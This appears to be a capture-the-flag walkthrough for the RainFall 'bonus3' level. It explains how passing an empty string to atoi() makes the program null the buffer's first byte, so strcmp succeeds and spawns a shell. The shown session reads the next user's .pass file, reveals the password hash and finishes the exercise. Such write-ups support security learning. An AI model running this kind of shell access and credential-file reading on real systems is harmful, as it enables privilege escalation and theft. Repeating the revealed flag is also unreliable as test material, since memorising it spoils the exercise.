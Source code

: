 # bonus3 walkthrough

We can find an executable which prints a newline when we provide one command line argument:

    bonus3@RainFall:~$ ./bonus3
    bonus3@RainFall:~$ ./bonus3 bla

    bonus3@RainFall:~$ ./bonus3 bla bla
    bonus3@RainFall:~$

The program needs at least 1 argument (argv[1]) otherwise it would not execute anything. The program also reads the .pass file for next level and stores it into a buffer via fread().
Then the program calls atoi() with argv[1] as a parameter and uses the result as an index for our buffer, at that index the program inserts a null byte.
After that, the program performs a comparaison of our buffer, it must be equal to argv[1] for the shell to be executed.
The thing is we don't know the flag! But if we input an empty string as first argument, atoi() will return 0 since the string does not contain a numeric value representation.
Therefore it will replace the first character in the buffer with a \0 (buffer[atoi("")] = 0), and since strcmp stops at \0 both strings will be considered identical:

    bonus3@RainFall:~$ ./bonus3 ""
    $ whoami
    end
    $ cat /home/user/end/.pass
    3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
    $ exit
    bonus3@RainFall:~$ su end
    Password: 
    end@RainFall:~$ ls
    end
    end@RainFall:~$ cat end 
    Congratulations graduate!


Project finished!
